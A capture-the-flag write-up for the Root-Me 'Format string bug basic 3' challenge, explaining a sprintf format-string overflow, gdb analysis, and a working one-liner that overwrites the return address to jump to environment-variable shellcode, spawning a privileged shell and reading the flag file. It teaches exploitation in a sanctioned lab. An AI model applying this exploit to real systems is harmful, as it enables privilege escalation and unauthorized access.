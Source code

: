 # ELF x86 - Format string bug basic 3
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-3
```
Environment configuration :
PIE 	Position Independent Executable 	 No
RelRO 	Read Only relocations 	                 No
NX 	Non-Executable Stack 	                 No
ASLR 	Address Space Layout Randomization 	 No
SF 	Source Fortification 	                 No
SSP 	Stack-Smashing Protection 	         No
SRC 	Source code access 	                 Yes

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch17@challenge02.root-me.org  
Username	app-systeme-ch17
Password	app-systeme-ch17
```

After a quick look at the source code, the vulnerable code can be spotted at
line 31, which contains a **sprintf** function with controllable format string:
```c
char    outbuf[512];
char    buffer[512];
char    user[12];
[... snip ...]

fgets(user, sizeof(user), stdin);
user[strlen(user) - 1] = '\0';
[... snip ...]

sprintf (buffer, "ERR Wrong user: %400s", user);
sprintf (outbuf, buffer);
```
First, let's verify it:
```gdb
(gdb) break *0x0804854f
Breakpoint 1 at 0x804854f
(gdb) run
Starting program: /challenge/app-systeme/ch17/ch17
Username: %p

Breakpoint 1, 0x0804854f in main ()
(gdb) x/1s 0xbffff97c
0xbffff97c:	"ERR Wrong user:", ' ' <repeats 185 times>...
(gdb) x/1s 0xbffffa35
0xbffffa35:	' ' <repeats 200 times>...
(gdb) x/1s 0xbffffb00
0xbffffb00:	' ' <repeats 26 times>, "0xbffff770"
```

Well, it prints an address from the stack.<br>
However, it seems there are 2 limitations:
1. The user's input is limited to 12 - (null byte) - (last byte set to null) =
10 bytes.
2. Before calling the vulnerable **sprintf**, the user input is transformed into
a fixed-size 416 bytes buffer (```ERR Wrong user: %400s```).

The first limitation pretty much disqualifies the exploit:
```
        4 bytes      2-6 bytes   +2 bytes
  < write address > < padding > <   %n    >
```
Then, we'll need to find an other way to exploit this program.<br>
I don't know any shellcode that spawns a shell, with less than 10 bytes.
Therefore, it can be guessed that the shellcode should be in an environment
variable.<br><br>

If you'll look closely at the code:
```c
sprintf (buffer, "ERR Wrong user: %400s", user);
sprintf (outbuf, buffer);
```
You may notice that there is an overflow.<br>
Let's say the user input is "%200xAAAA". Then **buffer** is set to
```ERR Wrong user: <400-8 whitespaces>%200xAAAA```.<br>
Then, **outbuf** is set to
```ERR Wrong user: <400-8 whitespaces><200 bytes>AAAA```. But, the length of the
buffer is set to 512 (while it has 611 bytes).

So, we've got a plan:
1. Set an environment variable with out shellcode (let's call it SHELLCODE).
2. Find the variable's address (using getenv.c - in our case it's 0xbffffd86).
3. Overwrite the return address.
4. Profit!

After few tries in gdb:
```gdb
(gdb) break *main+240
Breakpoint 1 at 0x8048584
(gdb) run < <(python -c "print '%121x' + '\x86\xfd\xff\xbf'")
Starting program: /challenge/app-systeme/ch17/ch17 < <(python -c "print '%121x' + '\x86\xfd\xff\xbf'")
Username: Bad username: %121x����

Breakpoint 1, 0x08048584 in main ()
(gdb) info registers
eax            0x0	0
ecx            0x0	0
edx            0xb7fd1898	-1208149864
ebx            0xb7fd0000	-1208156160
esp            0xbffffb5c	0xbffffb5c
ebp            0x30343766	0x30343766
esi            0x0	0
edi            0x66666662	1717986914
eip            0x8048584	0x8048584 <main+240>
eflags         0x286	[ PF SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/1x 0xbffffb5c
0xbffffb5c:	0xbffffd86
```
Well it worked (the return address is set to the variable's address).<br>
Now let's try it outside of gdb:
```sh
app-systeme-ch17@challenge02:~$ (python -c "print '%121x' + '\x86\xfd\xff\xbf'";cat) | ./ch17
Username: Bad username: %121x����
id
uid=1117(app-systeme-ch17) gid=1117(app-systeme-ch17) euid=1217(app-systeme-ch17-cracked) groups=1217(app-systeme-ch17-cracked),100(users),1117(app-systeme-ch17)
cat .passwd
<censored>
```
